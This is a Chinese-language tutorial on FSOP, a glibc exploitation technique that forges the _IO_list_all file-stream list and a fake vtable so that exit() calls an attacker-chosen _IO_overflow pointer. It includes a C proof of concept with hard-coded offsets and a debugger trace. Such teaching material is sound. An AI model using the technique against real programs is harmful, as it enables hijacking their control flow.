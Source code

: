 # FSOP

## 介绍
FSOP是File Stream Oriented Programming的缩写，根据前面对FILE的介绍得知进程内所有的_IO_FILE结构会使用_chain域相互连接形成一个链表，这个链表的头部由_IO_list_all维护。

FSOP的核心思想就是劫持_IO_list_all的值来伪造链表和其中的_IO_FILE项，但是单纯的伪造只是构造了数据还需要某种方法进行触发。FSOP选择的触发方法是调用_IO_flush_all_lockp，这个函数会刷新_IO_list_all链表中所有项的文件流，相当于对每个FILE调用fflush，也对应着会调用_IO_FILE_plus.vtable中的_IO_overflow。

```
int
_IO_flush_all_lockp (int do_lock)
{
  ...
  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
  {
       ...
       if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
	           && _IO_OVERFLOW (fp, EOF) == EOF)
	       {
	           result = EOF;
          }
        ...
  }
}
```

![](https://4.bp.blogspot.com/-r3hv51vGsJs/V_4_4jkccpI/AAAAAAAAA2E/y1l9eM7mbhw9AIA6Md5suNpo32cCk6QiwCPcB/s1600/abort_routine.001.jpeg)

而_IO_flush_all_lockp不需要攻击者手动调用，在一些情况下这个函数会被系统调用：

1.当libc执行abort流程时

2.当执行exit函数时

3.当执行流从main函数返回时


## 示例

梳理一下FSOP利用的条件，首先需要攻击者获知libc.so基址，因为_IO_list_all是作为全局变量储存在libc.so中的，不泄漏libc基址就不能改写_IO_list_all。

之后需要用任意地址写把_IO_list_all的内容改为指向我们可控内存的指针，

之后的问题是在可控内存中布置什么数据，毫无疑问的是需要布置一个我们理想函数的vtable指针。但是为了能够让我们构造的fake_FILE能够正常工作，还需要布置一些其他数据。
这里的依据是我们前面给出的

```
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
	           && _IO_OVERFLOW (fp, EOF) == EOF)
	       {
	           result = EOF;
          }
```

也就是

* fp->_mode <= 0
* fp->_IO_write_ptr > fp->_IO_write_base



在这里通过一个示例来验证这一点，首先我们分配一块内存用于存放伪造的vtable和_IO_FILE_plus。
为了绕过验证，我们提前获得了_IO_write_ptr、_IO_write_base、_mode等数据域的偏移，这样可以在伪造的vtable中构造相应的数据

```
#define _IO_list_all 0x7ffff7dd2520
#define mode_offset 0xc0
#define writeptr_offset 0x28
#define writebase_offset 0x20
#define vtable_offset 0xd8

int main(void)
{
    void *ptr;
    long long *list_all_ptr;
    
    ptr=malloc(0x200);
    
    *(long long*)((long long)ptr+mode_offset)=0x0;
    *(long long*)((long long)ptr+writeptr_offset)=0x1;
    *(long long*)((long long)ptr+writebase_offset)=0x0;
    *(long long*)((long long)ptr+vtable_offset)=((long long)ptr+0x100);
    
    *(long long*)((long long)ptr+0x100+24)=0x41414141;
    
    list_all_ptr=(long long *)_IO_list_all;
    
    list_all_ptr[0]=ptr;
    
    exit(0);
}
```

我们使用分配内存的前0x100个字节作为_IO_FILE_plus，后0x100个字节作为vtable，在vtable中使用0x41414141这个地址作为伪造的_IO_overflow指针。

之后，覆盖位于libc中的全局变量 _IO_list_all，把它指向我们伪造的_IO_FILE_plus。

通过调用exit函数，程序会执行 _IO_flush_all_lockp，经过fflush获取_IO_list_all的值并取出作为_IO_FILE_plus调用其中的_IO_overflow

```
---> call _IO_overflow
[#0] 0x7ffff7a89193 → Name: _IO_flush_all_lockp(do_lock=0x0)
[#1] 0x7ffff7a8932a → Name: _IO_cleanup()
[#2] 0x7ffff7a46f9b → Name: __run_exit_handlers(status=0x0, listp=<optimized out>, run_list_atexit=0x1)
[#3] 0x7ffff7a47045 → Name: __GI_exit(status=<optimized out>)
[#4] 0x4005ce → Name: main()

```




